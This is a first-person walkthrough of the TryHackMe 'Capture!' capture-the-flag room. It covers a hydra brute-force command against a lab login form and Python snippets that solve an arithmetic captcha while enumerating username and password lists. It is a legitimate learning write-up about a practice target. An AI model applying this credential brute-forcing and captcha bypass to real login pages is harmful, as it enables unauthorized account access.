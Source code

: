
# Capture! CTF from TryHackMe Walkthrough

Welcome! Thanks for checking out my walkthrough. This room was simple to understand, but needed a little bit of custom automation that could potentially take longer than some rooms. I will walkthrough what I did in order to crack the username and password for this website.


## Recon

Included in the room was a zip file which included two text files: `usernames.txt` and `passwords.txt`. This pretty much told me from the start that I would be cracking some usernames and passwords.

When I first saw the login screen on the web application, my assumptions were confirmed.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/1.png?text=First+Pic)

I saw that trying to login with wrong credentials left an error at the bottom of the page.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/2.png?text=Second+Pic)

In order to see what was going on under the hood, I opened up Burp Suite and checked out the raw HTTP request. I could see the data sent and what the response was from the server.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/3.png?text=Third+Pic)

With the information I gathered I decided to use [hydra](https://github.com/vanhauser-thc/thc-hydra) to try to crack both usernames and passwords. First trying to crack the usernames, I entered the command:
```bash
hydra -L usernames.txt -p password -t 64 -s 80 10.10.204.24 http-post-form "/login:username=^USER^&password=^PASS^:Error\: The user " 
```
Here I used the `usernames.txt` to enumerate the usernames. After trying this for a few minutes, I noticed that this wasn't returning what I would hope. After troubleshooting hydra and trying to figure out what potential command mistake I made, I looked at the website again only to find that the login page had changed!

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/5.png?text=Fifth+Pic)

A captcha! Uh-oh. I've never dealt with breaking one of these before. After playing around in Burp Suite a while longer, I learned that the captcha from the previous page was the answer for the new login page. So the data needed to post correctly would be `username`, `password`, and `captcha`. In order to crack this login, it seems that I would have to write a custom script.

## Scripting

From what I learned about the web application, I had to create a script that would do the following:

 - [ ]  Load both `usernames.txt` and `passwords.txt` into the program.
 - [ ]  Trigger the captcha.
 - [ ]  Find way to identify the elements in the captcha:
   - [ ]  Opperands
   - [ ]  Operant
 - [ ]  Send correct captcha to the server while enumerating `usernames.txt`.
 - [ ]  Once username is found, enumerate `passwords.txt`
 - [ ]  Print out correct username and password.

I used these tasks to break my code into smaller parts. The actual code is available at the top of this page, but you can also access it [here](https://github.com/wsmaxcy/capture/blob/master/capture.py).

 - [X]  Load both `usernames.txt` and `passwords.txt` into the program.
```python
# load list of usernames
def load_users():
	users = list()
	with open("usernames.txt") as f:
		for line in f:
			users.append(line.rstrip('\n'))
	print('[+] Loaded ' + str(len(users)) + ' usernames to attempt.')
	return users

# loads list of passwords
def load_passwords():
	passwords = list()
	with open("passwords.txt") as f:
		for line in f:
			passwords.append(line.rstrip('\n'))
	print('[+] Loaded '+ str(len(passwords)) + ' passwords to attempt.')
	return passwords

```
- [x]  Trigger the captcha.
```python
# sends 10 requests in order start the captcha
for i in range(10):
	data = {
	'username': 'username',
	'password': 'password'
	}
	r = requests.post(url,data=data)
	print("[+] Sent "+ str(i+1) + "/10 requests to trigger captcha.", end = '\r')
```
 - [x]  Find way to identify the elements in the captcha:
   - [x]  Opperands
   - [x]  Operant
```python
# username and password
person = ''
password = ''

# data used for post request
	length = len(password) -1
	data = {
	'username': username,
	'password': password,
	'captcha': cap
	}

	# Data used to find captcha
	r = requests.post(url,data=data)
	eq = r.text[1839 + length:1847 + length]
	
	# if statement that returns when the page is authenticated
	if eq == '':
		print('[+] Password found: ' + password)
		return -1

	num1 = int(eq[:3])
	num2 = int(eq[6:8])
	opp = eq[4]

    # finding out which operator to use for captcha equasion
	if opp == '+':
		cap = num1 + num2
	elif opp == '-':
		cap = num1 - num2
	else:
		cap = num1 * num2

    return cap
```
 - [x]  Send correct captcha to the server while enumerating `usernames.txt`.
 - [x]  Once username is found, enumerate `passwords.txt`
```python
# iterates through usernames list
for name in users:
	cur = send_request(name, 'password', cur)
	if cur == -1:
		person = person + name
		break;

passwords = load_passwords()

# iterates through password list
for p in passwords:

	cur = last_request(person, p, cur)
	if cur == -1:
		password = password + p
		break
```
- [x]  Print out correct username and password.
```python
# final print of username and password
print('[+] Username: ' + person)
print('[+] Password: ' + password)
```

After a lot of trial and error building the script, it ended up cracking both the username and the password.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/6.png?text=Sixth+Pic)

When I logged on with the information, I got the flag.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/7.png?text=Sixth+Pic)

Thanks for checking out my writeup! It's my first one, so if there are any comments or criticisms, I would love to hear them.


## Feedback

If you have any feedback, please reach out to me at will@willmaxcy.com.



[![portfolio](https://img.shields.io/badge/my_portfolio-000?style=for-the-badge&logo=ko-fi&logoColor=white)](https://willmaxcy.com/)
[![linkedin](https://img.shields.io/badge/linkedin-0A66C2?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/willmaxcy)
